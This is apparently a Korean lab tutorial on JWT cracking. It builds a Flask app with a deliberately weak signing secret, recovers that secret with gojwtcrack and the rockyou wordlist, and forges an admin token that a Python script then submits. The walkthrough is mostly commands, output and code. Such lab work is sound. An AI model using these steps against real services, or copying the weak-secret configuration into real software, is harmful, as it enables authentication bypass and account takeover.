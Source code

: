 # JWT (Json Web Token)

[JWT](https://ko.wikipedia.org/wiki/JSON_%EC%9B%B9_%ED%86%A0%ED%81%B0)는 인증 및 식별하기 위한 토큰 기반 인증으로 인터넷 표준이다.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [JWT crack](#JWT-crack)**

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.142.128           |
| python3       | 3.8.10                    |
| flask         | 2.1.2                     |
| flask-jwt-extended    | 4.4.2             |
| go            | 1.13.8 linux/amd64        |

flask를 이용하여 JWT를 생성하기 위해 관련 패키지를 설치하자.

```sh
user@user:~$ sudo apt -y install python3-pip
user@user:~$ pip3 install flask flask-jwt-extended
```

```py
from flask import Flask, jsonify
from flask_jwt_extended import JWTManager, create_access_token, get_jwt_identity, jwt_required, set_access_cookies

app = Flask(__name__)
app.config['JWT_SECRET_KEY'] = '1234567890'
app.config['JWT_COOKIE_SECURE'] = False
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False
jwt = JWTManager(app)

@app.route('/', methods=['GET'])
def GetJWT():
    username = 'user'
    access_token = create_access_token(identity=username)
    resp = jsonify({'user': username, 'token' : access_token})
    set_access_cookies(resp, access_token)
    return resp, 200

@app.route('/auth', methods=['GET'])
@jwt_required()
def auth():
    username = get_jwt_identity()
    return jsonify({'user': username}), 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5001, debug=False)
```

# **JWT crack**

flask서버로 접속하면 jwt 값을 확인할 수 있다.

    access_token : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InVzZXIiLCJuYmYiOjE2NTcwMTY0NjgsImV4cCI6MTY1NzAxNzM2OH0.EkkKCuMfwvZZItOCZ4jUcJOaQTzbSVtXpXmft9aXYcE

[jwt.io](https://jwt.io/)에서 jwt를 디코딩하면 우측에 sub라는 키의 값은 user라고 나온다.

![](images/2022-07-05-21-33-24.png)

현재 secret key를 알 수 없으므로 Invalid Signature가 나온다.

golang을 설치하고 [jwt cracker](https://github.com/x1sec/gojwtcrack)를 컴파일하자.

```sh
user@user:~$ sudo apt -y install golang-go
user@user:~$ go get -u github.com/x1sec/gojwtcrack
user@user:~$ go build -o gojwtcrack go/src/github.com/x1sec/gojwtcrack/main.go
```

dictionary attack을 위한 파일을 다운 받자.

```sh
user@user:~$ wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

jwt값을 token.txt파일로 저장하고 secret key가 딕셔너리에 포함되어 있다면, 크랙에 성공한다.

```sh
user@user:~$ go/bin/gojwtcrack -d rockyou.txt -t token.txt
1234567890      eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InVzZXIiLCJuYmYiOjE2NTcwMTY0NjgsImV4cCI6MTY1NzAxNzM2OH0.EkkKCuMfwvZZItOCZ4jUcJOaQTzbSVtXpXmft9aXYcE
```

이후, [jwt.io](https://jwt.io/)를 이용하여 sub의 값을 admin으로 바꾸고 secret key를 크랙의 결과 값을 넣어서 jwt를 만들자.

![](images/2022-07-05-21-41-38.png)

이후 cookie에 담아서 서버에 인증하면, user가 admin으로 변경됨을 확인할 수 있다.

```py
import requests

url = 'http://192.168.142.128:5001/auth'
user_token  = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6InVzZXIiLCJuYmYiOjE2NTcwMTY0NjgsImV4cCI6MTY1NzAxNzM2OH0.EkkKCuMfwvZZItOCZ4jUcJOaQTzbSVtXpXmft9aXYcE'

admin_token = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY1NzAxNjQ2OCwianRpIjoiNTM0YzYzM2MtMWI1ZC00MDdlLThhYzQtZDk5YjUyYTIwNDkyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFkbWluIiwibmJmIjoxNjU3MDE2NDY4LCJleHAiOjE2NTcwMTczNjh9.JDFj3EvsSaz8YXfCUeiGxL4X74QdPbi-w2M4XVG04Fo'

cookie = {'access_token_cookie':admin_token}
req = requests.get(url=url, cookies=cookie)
print(req.text)
```